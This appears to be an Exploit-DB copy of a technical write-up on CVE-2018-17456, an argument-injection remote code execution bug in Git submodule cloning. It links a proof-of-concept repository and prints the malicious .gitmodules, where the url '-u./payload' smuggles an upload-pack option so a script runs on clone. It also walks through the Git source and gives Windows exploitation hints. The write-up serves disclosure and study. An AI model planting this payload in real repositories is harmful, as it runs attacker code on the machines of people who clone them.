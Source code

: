 # CVE-2018-17456

I've gotten a couple of questions about exploitation for the
[recent RCE](https://marc.info/?l=git&m=153875888916397&w=2) in Git. So here we
go with some technical details.

## TL;DR

[Here](https://github.com/joernchen/poc-submodule) is a PoC repository.
EDB Note: Mirror ~ https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/45631.zip

## Exploitation

The `.gitmodules` file looks as follows:

```
[submodule "x:x"]
	path = x:x
	url = -u./payload
```

The actual command being injected is set by the url, `-u./payload`
points the `upload-pack` flag of git clone to the `payload` shell
script. Note also the `:` within the path, this part is needed to
actually get the `payload` script executed.

The path will end up as the repository URL in the subsequent `clone`
operation:

```
execve("/usr/lib/git-core/git", ["/usr/lib/git-core/git", "clone",
"--no-checkout", "--progress", "--separate-git-dir",
"/tmp/huhu/.git/modules/x:x", "-u./payload", "/tmp/huhu/x:x"],...
```

As the actual URL from `.gitmodules` is interpreted as the `-u`
argument.

The colon is due to the fact, that the colon character let us go past
those lines in `transport.c`:

```c
    } else if (url_is_local_not_ssh(url) && is_file(url) && is_bundle(url, 1)) {
        struct bundle_transport_data *data = xcalloc(1, sizeof(*data));
        transport_check_allowed("file");
        ret->data = data;
        ret->vtable = &bundle_vtable;
        ret->smart_options = NULL;
```

Due to `url_is_local_not_ssh` will return false due to the colon
in the path. And therefore later on in the code the smart_options
containing the `uploadpack` setting are still in place:

```c
   } else {
		/* Unknown protocol in URL. Pass to external handler. */
		int len = external_specification_len(url);
		char *handler = xmemdupz(url, len);
		transport_helper_init(ret, handler);
	}

	if (ret->smart_options) {
		ret->smart_options->thin = 1;
		ret->smart_options->uploadpack = "git-upload-pack";
		if (remote->uploadpack)
			ret->smart_options->uploadpack = remote->uploadpack;
		ret->smart_options->receivepack = "git-receive-pack";1
		if (remote->receivepack)
			ret->smart_options->receivepack = remote->receivepack;
	}
```

## Further hints

The constraint to have a colon in the `path` seems to hinder exploitation on Windows
as a colon is a forbidden character within a path on Windows. However as noted by
some people during the disclosure: Git running within the Windows Subsystem for Linux or
cygwin will allow exploitation on Windows hosts.

Etienne Stalmans who found [a similar issue](https://staaldraad.github.io/post/2018-06-03-cve-2018-11235-git-rce/)
earlier this year managed to exploit this argument injection [using `--template`](https://twitter.com/_staaldraad/status/1049241254939246592).